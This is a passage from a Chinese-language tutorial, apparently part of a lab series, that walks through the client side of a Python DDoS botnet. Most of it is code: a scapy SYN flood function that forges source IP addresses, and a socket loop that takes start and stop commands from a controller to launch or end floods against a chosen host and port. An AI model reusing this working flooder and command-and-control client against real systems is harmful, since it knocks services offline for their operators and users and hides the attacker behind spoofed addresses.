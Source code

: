 ```
                    curProcess = p
​````
如果命令是`stop`，并且有进程存活，我们就直接结束这个进程，并清空屏幕。否则就什么也不做。
​````
                #DDoS停止命令
                elif m_cmd.lower() ==&#39;stop&#39;:
                    if curProcess.is_alive():
                        curProcess.terminate()
                        os.system(&#39;clear&#39;)
            except:
                print(&#39;Failed to perform the command!&#39;)
```

由于`SYN泛洪攻击`我们在上一节实验中已经实现，这里就不多介绍了。现在我们看一下完整的`Client端`代码：

```
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import sys
import socket
import random
import argparse
from multiprocessing import Process
from scapy.all import *
import os 
isWorking = False   
curProcess = None

#SYN泛洪攻击
def synFlood(tgt,dPort):
    print(&#39;=&#39;*100)
    print(&#39;The syn flood is running!&#39;)
    print(&#39;=&#39;*100)
    srcList = [&#39;201.1.1.2&#39;,&#39;10.1.1.102&#39;,&#39;69.1.1.2&#39;,&#39;125.130.5.199&#39;]
    for sPort in range(1024,65535):
        index = random.randrange(4)
        ipLayer = IP(src=srcList[index], dst=tgt)
        tcpLayer = TCP(sport=sPort, dport=dPort,flags=&#34;S&#34;)
        packet = ipLayer / tcpLayer 
        send(packet)

#命令格式&#39;#-H xxx.xxx.xxx.xxx -p xxxx -c &lt;start&gt;&#39;   
#处理命令
def cmdHandle(sock,parser):
    global curProcess
    while True:
        #接收命令
        data = sock.recv(1024).decode(&#39;utf-8&#39;)
        if len(data) == 0:
            print(&#39;The data is empty&#39;)
            return
        if data[0] == &#39;#&#39;:
            try:
                #解析命令
                options = parser.parse_args(data[1:].split())
                m_host = options.host
                m_port = options.port
                m_cmd = options.cmd
                #DDoS启动命令
                if m_cmd.lower() == &#39;start&#39;:
                    if curProcess != None and curProcess.is_alive():
                        curProcess.terminate()
                        curProcess = None
                        os.system(&#39;clear&#39;)
```